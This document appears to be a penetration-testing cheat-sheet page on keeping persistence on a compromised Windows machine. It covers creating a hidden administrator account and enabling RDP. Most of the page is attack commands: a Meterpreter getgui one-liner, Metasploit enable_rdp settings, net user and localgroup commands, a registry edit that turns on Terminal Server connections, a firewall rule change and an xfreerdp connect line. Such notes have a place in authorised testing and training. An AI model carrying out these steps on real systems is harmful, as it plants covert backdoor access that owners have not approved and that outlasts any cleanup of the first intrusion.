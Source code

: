 # Establishing Windows Persistence via RDP

One other way to ensure persistence is to  create a secret user on the target with administrative privileges and the Enable RDP service on the target such that even if the system is shut down or anything cut off our initial session, in this case we can use the RDP session to connect the target.
<br>
Persistence via RDP involves:
1. Creating an new User
2. Enabling RDP on the target
3. Hide User from windows Login screen

#### USING METERPRETER SHELL:
We can do all these things with a single line command using Meterpreter,

```c
meterpreter > run getgui -e -u [USERNAME] -p [PASSWORD]
```

#### MANUAL METHOD:
In manual method we need to do all these one by one. 
First we can Enable RDP on target:

```c
use post/windows/manage/enable_rdp
set ENABLE true
set LPORT [PORT_TO_FORWARD]
set SESSION [SESSION_ID]
exploit
```

Then we should create a new user:

```c
C:\> net user administrator [NEW_PASSWORD]
# if you have the privs you can change a password directly. if by any reason you cant change a user's password, try to create a new user

C:\> net user [USER] [PASSWORD] /ADD
C:\> net localgroup [GROUPNAME] [USERNAME] /ADD
```

Now finally we can connect to the target using RDP

```c
$ xfreerdp /u:[USER] /p:[PASSWORD] /v:[TARGET]
```


#### MANUAL METHOD FOR ENABLING RDP:

```c
C:\> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

C:\> netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
